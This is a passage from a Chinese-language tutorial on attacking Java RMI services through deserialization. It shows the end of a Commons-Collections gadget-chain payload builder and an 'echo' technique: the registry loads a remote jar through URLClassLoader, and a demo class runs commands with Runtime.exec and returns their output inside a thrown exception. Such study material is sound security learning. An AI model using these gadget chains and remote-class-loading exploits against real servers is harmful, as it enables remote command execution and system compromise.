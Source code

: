 ```
        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);
 
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
 
}
```

这样的话，不是能够直接调用服务端的类了么，不懂。

#### 远程加载对象

和上边Server打Client一样利用条件非常苛刻。

参考：https://paper.seebug.org/1091/#serverrmi

## 0x03 RMI 进阶攻击方式

### 1. 利用 URLClassLoader实现回显攻击

攻击注册中心时，注册中心遇到异常会直接把异常发回来，返回给客户端。这里我们利用URLClassLoader加载远程jar，传入服务端，反序列化后调用其方法，在方法内抛出错误，错误会传回客户端

远程demo：

JAVA

```
import java.io.BufferedReader;
import java.io.InputStreamReader;
 
public class ErrorBaseExec {
 
    public static void do_exec(String args) throws Exception
    {
        Process proc = Runtime.getRuntime().exec(args);
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();
        String line;
        while ((line = br.readLine()) != null)
        {
            sb.append(line).append("\n");
        }
        String result = sb.toString();
        Exception e=new Exception(result);
        throw e;
    }
}
```
